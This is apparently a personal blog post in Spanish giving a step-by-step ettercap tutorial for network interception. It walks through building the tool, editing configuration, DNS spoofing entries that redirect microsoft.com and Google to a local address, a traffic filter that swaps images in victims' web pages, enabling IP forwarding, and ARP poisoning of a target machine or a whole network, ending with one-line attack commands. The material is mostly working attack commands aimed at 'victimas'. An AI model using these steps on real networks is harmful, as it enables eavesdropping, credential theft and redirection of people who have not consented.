 ```yaml
---
layout: post
title: "ettercap"
date: 2014-01-29 18:30
comments: true
categories: 
---
```

[Dependencias: libcap2 libnet1 zlib1g libpthread-stubs0 libpcre3-dev libpcap-dev libcap-dev libnet6-1.3-0 libnet1-dev libssl-dev ncurses-bin libncurses5-dev libsdl-pango1 libatk1.0-dev]

Snifador de red. Muestra pantallas solicitando aceptación de certificado en los navegadores de las victimas. 

descargar de http://ettercap.sourceforge.net/ y descomprimir 

>$ wget http://prdownloads.sourceforge.net/ettercap/ettercap-NG-0.7.3.tar.gz?download

>$ wget http://sourceforge.net/projects/ettercap/files/ettercap/NG-0.7.3/ettercap-NG-0.7.3.tar.gz/download

>$ tar -zvxf paquete

>$ cd ettercap-NG-0.7.3 

	$ ./configure 

	$ make 

	# make install 

>$ ettercap -P list   (visualizar plugins instalados)

modificar archivo de configuración: 

>\# nano /etc/etter.conf

descomentar la linea:himne20-01-13 19:37Menos información

>\# if you use iptables: 

redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport" 

Y modificar:

>\# the command used by the remote_browser plugin 

remote_browser = "firefox -remote openurl(http://%host%url)"

Para usar el plugin dns_spoof (Redireccionar páginas a otros sitios)

>\# nano /usr/share/ettercap/etter.dns 

>\# 3  Modos de especificar la redirección a localhost 

	microsoft.com          A       192.168.1.2 

	*.microsoft.com        A       192.168.1.2 

	*google*               A       192.168.1.2

Para la sustitución de imagenes:

>\# touch test2filter 

Pegar: 

	if (ip.proto == TCP && tcp.src == 80) { 

	replace("img src=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	replace("IMG SRC=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	msg("Filter ok.\n");

Configurar el sistema para que acepte todos los paquetes que detecte. Si al lanzar: 

>\# cat /proc/sys/net/ipv4/ip_forward 

Si la respuesta no es 1, lanzar: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Arrancar la aplicación en ncurses [en terminal -> ettercap -T , en modo gtk -> ettercap -G y en modo demonio -> ettercap -D . En este último caso el análisis se realiza en los archivos de log]: 

>\# ettercap -C 

Clicar en: 

	Sniff -> Unifield sniffing 

Y aceptar [o poner] la red [eth0]. En la nueva pantalla, clic en: 

	Host -> Scan for host 

Para escanear la red. Para visionar las máquina activas obtenidas, clic en: 

	Hosts -> Hosts List 

Bajar con el cursor hasta la IP del router y pulsar la tecla "1". Luego nos situamos sobre la IP del objetivo y pulsar la tecla "2" con lo que colocamos nuestra máquina entre el router y la máquina objetivo (envenenamiento arp). Luego en el cuadro que se abre con: 

	Mitm -> Arp poisoning 

Parameters, ponemos: 

	remote

Y arrancamos el sniffer: 

	Start -> Start sniffing 

	Para observar las conexiones que realiza la máquina objetivo: 

	View -> Connections 

	Para terminar el ataque: 

	Mitm -> Stop mitm atack 

	Start -> Stop Sniffing 

	Start -> Exit

Forma abreviada:

	# ettercap -Tq -M arp:remote -i eth0 ip_victima ip_router 

	O solo especificando la del router si se ataca toda la red: 

>\# ettercap -Tq -M arp:remote -i eth0 ip_router

